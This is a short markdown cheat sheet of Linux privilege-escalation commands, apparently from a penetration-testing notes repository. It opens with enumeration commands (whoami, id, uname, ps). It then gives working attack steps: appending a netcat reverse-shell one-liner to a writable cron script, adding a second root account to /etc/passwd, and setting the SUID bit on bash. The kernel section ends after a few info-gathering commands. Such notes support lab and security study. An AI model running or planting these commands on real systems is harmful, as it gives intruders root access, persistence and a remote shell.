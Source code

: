 # Linux privilege escalation  

Find out what user is currently logged in.  

`whoami`  

Find user context.  

`id`  

Find information from the hostname.  

`hostname`  

os version information.  

```
cat /etc/*-release
uname -a
```  

List processes, a and x with/without TTY and u for readable output.  

`ps aux`

## cron  

To view running jobs in the cron log.  

`grep "CRON" /var/log/cron.log`  

If a writable script(user_backups.sh) is found as a cronjob, a reverse shell one liner can be appended.  

```
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh
```  

## /etc/passwd  

If /etc/passwd is writable, another root user can be added.  

```
openssl passwd somepassword1
echo "root2:<somepassword1 hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```  

## bash  

If we can execute a command as root.  

```
chmod +s /usr/bin/bash
/usr/bin/bash -p
```  

## Kernel vulns  

Gathering info.  

To display message of login prompt.  

`cat /etc/issue`  

Kernel version.  

`uname -r`  

Architecture.  

`arch`  



